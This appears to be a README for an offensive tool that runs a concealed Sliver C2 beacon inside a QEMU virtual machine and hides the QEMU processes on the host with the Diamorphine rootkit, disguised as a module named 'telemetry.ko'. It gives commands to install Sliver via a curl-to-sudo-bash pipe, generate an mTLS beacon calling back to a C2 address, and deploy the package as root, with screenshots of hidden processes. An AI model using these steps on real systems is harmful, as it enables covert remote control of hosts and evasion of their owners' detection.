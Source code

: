 Linux environment setup script that builds u-root, runs a concealed Sliver C2 agent in QEMU, and hides the process using Diamorphine rootkit.

Tested on Ubuntu 16.04.7 LTS (Xenial Xerus) (GNU/Linux 4.4.0-186-generic x86_64).

- Change IP address of your C2 server;
- Compile Sliver C2 beacon as following:
```bash
curl https://sliver.sh/install|sudo bash

sliver

generate beacon --mtls 10.4.10.10:443 --os linux --arch amd64 --format elf --save slivki

mtls --lport 443
```
- Add slivki (Sliver C2 beacon), telemetry.ko (Diamorphine rootkit) and deploy.sh script to a deploy.tar.gz archive and execute starter.sh on a host as root;



Credits:

- https://github.com/m0nad/Diamorphine
- https://github.com/u-root/u-root
- https://github.com/qemu/qemu

---

VM in QEMU:

![Image 1](https://i.imgur.com/yxWqAgM.jpeg)

Before rootkit execution:

![Image 2](https://i.imgur.com/uLHbYHd.jpeg)

QEMU processes hidden on a host:

![Image 3](https://i.imgur.com/jD5UP5b.jpeg)

Unhide:

![Image 4](https://i.imgur.com/dTE7umq.jpeg)

